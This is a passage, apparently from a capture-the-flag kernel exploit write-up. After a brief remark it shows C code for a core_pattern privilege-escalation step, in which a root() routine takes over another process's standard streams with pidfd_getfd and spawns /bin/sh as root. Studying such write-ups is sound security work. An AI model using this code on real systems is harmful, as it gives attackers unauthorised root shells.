 ```c
                                        while(1);
                                }
                                return 0;
                        }
                }
        }
```

Now a core dump occurs, and executing `root()` grants a root shell.

```c
void root(char *buf)
{
        int pid = strtoull(buf, 0, 10);
        char path[0x100];
        printf("run root()\n");
        // fix stdin, stdout, stderr
        sprintf(path, "/proc/%d/ns/net", pid);
        int pfd = syscall(SYS_pidfd_open, pid, 0);
        int stdinfd = syscall(SYS_pidfd_getfd, pfd, 0, 0);
        int stdoutfd = syscall(SYS_pidfd_getfd, pfd, 1, 0);
        int stderrfd = syscall(SYS_pidfd_getfd, pfd, 2, 0);
        dup2(stdinfd, 0);
        dup2(stdoutfd, 1);
        dup2(stderrfd, 2);
        // just cat the flag
        system("/bin/sh");
}

int main(int argc, void *argv[])
{
        if (argc > 1) {
                printf("triggered from core_pattern\n");
                root(argv[1]);
                exit(0);
        }
```
